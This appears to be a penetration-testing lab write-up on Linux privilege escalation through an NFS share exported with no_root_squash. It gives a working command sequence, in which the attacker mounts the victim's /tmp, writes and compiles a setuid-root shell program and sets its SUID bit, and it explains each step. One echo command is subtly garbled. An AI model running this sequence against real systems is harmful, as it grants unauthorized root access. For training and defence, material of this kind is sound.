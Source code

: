 # 👩‍🏫 NFS Root Squashing

## Escalation via NFS Root Squashing

### Introduction

Network File System (NFS) is a distributed file system protocol that allows a client to access files over a network as if they were on its local hard drive. NFS Root Squashing is a security feature that restricts the root user's access on the NFS client, preventing them from having superuser privileges on the NFS server.

<figure><img src="https://1846131522-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-MWVjG_njKgBtvmnKaJh%2F-MfpHk6egzwC-0G7wEe4%2F-MfpI1lfqWkXpGpvqWIZ%2Fimage.png?alt=media&#x26;token=2a83441d-9cb1-4746-930e-24c78bd4a461" alt=""><figcaption></figcaption></figure>

### Understanding NFS Root Squashing

When a user on an NFS client attempts to access files on an NFS server, the server checks the user's identity. If the user is the root on the client machine, NFS Root Squashing maps the root user's UID and GID to a non-privileged user's UID and GID on the NFS server. This is done to prevent a compromised or malicious root user on the client from gaining unrestricted access to files on the server.

### Exploiting NFS Root Squashing for Privilege Escalation

If an NFS share is misconfigured with weak permissions or improperly set root squashing, an attacker might find ways to abuse this feature for privilege escalation. Here's a general process an attacker might follow:

1. **Identify NFS Mounts:**
   * Use commands like `showmount -e <NFS_SERVER>` on the attacker's machine to identify NFS shares.
2. **Check Mount Options:**
   * Inspect the mount options on the client. Look for the presence of `no_root_squash` or weak permissions.
3. **Craft Malicious Payloads:**
   * If root squashing is in effect, the attacker can craft payloads that manipulate files within the NFS share.
4. **Exploit Weak Permissions:**
   * If the NFS share has weak permissions, the attacker may be able to create or overwrite files that could lead to privilege escalation.
5. **Abuse Trust Relationships:**
   * If the NFS server trusts the client, the attacker might manipulate files in a way that the server will execute malicious code.

Let's see:

<figure><img src="../../../../.gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure>

We see "no root squash", that's interesting..

On our attacker machine, we can:

```
root@ip-10-10-16-213:~# showmount -e <Victim_IP>
Export list for <Victim_IP>:
/tmp *
root@ip-10-10-16-213:~# mkdir /tmp/mountme
root@ip-10-10-16-213:~# mount -o rw,vers=2 10.10.230.125:/tmp /tmp/mountme
root@ip-10-10-16-213:~# echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0; }' /tmp/mountme/x.c
int main() {setgid(0); setuid(0); system("/bin/bash"); return 0; } > /tmp/mountme/x.c
root@ip-10-10-16-213:~# cat /tmp/mountme/x.c
int main() {setgid(0); setuid(0); system("/bin/bash"); return 0; }
root@ip-10-10-16-213:~# gcc /tmp/mountme/x.c -o /tmp/mountme/malicious
root@ip-10-10-16-213:~# chmod +s /tmp/mountme/malicious
```

and on our victim machine we can now see:

<figure><img src="../../../../.gitbook/assets/image (328).png" alt=""><figcaption></figcaption></figure>

Explanation:

1.  **Show NFS Exports:**

    ```bash
    root@ip-10-10-16-213:~# showmount -e <Victim_IP>
    ```

    The `showmount` command is used to display the NFS (Network File System) exports on the victim machine. It reveals that the `/tmp` directory is exported.
2.  **Create a Mount Point:**

    ```bash
    root@ip-10-10-16-213:~# mkdir /tmp/mountme
    ```

    A local directory (`/tmp/mountme`) is created on the attacking machine to mount the exported directory.
3.  **Mount the NFS Share:**

    ```bash
    root@ip-10-10-16-213:~# mount -o rw,vers=2 10.10.230.125:/tmp /tmp/mountme
    ```

    The `mount` command is used to mount the NFS share from the victim machine (`10.10.230.125:/tmp`) onto the local mount point (`/tmp/mountme`). The options `rw` indicate read and write access, and `vers=2` specifies the NFS version.
4.  **Create a Malicious C Program:**

    ```bash
    root@ip-10-10-16-213:~# echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0; }' /tmp/mountme/x.c
    ```

    A simple C program (`x.c`) is created within the mounted directory that sets the GID and UID to 0 (root) and then executes `/bin/bash`.
5.  **Compile the C Program:**

    ```bash
    root@ip-10-10-16-213:~# gcc /tmp/mountme/x.c -o /tmp/mountme/malicious
    ```

    The `gcc` compiler is used to compile the C program (`x.c`) into a binary executable named `malicious` within the mounted directory.
6.  **Set SUID Bit:**

    ```bash
    root@ip-10-10-16-213:~# chmod +s /tmp/mountme/malicious
    ```

    The SUID bit is set on the compiled binary, allowing it to run with the privileges of the file owner (root). This enables a non-root user to execute the binary with elevated privileges.

After completing these steps, the attacker can execute the compiled `malicious` binary from the local mount point (`/tmp/mountme`), leading to the execution of a root shell on the victim machine:

<figure><img src="../../../../.gitbook/assets/image (329).png" alt=""><figcaption></figcaption></figure>

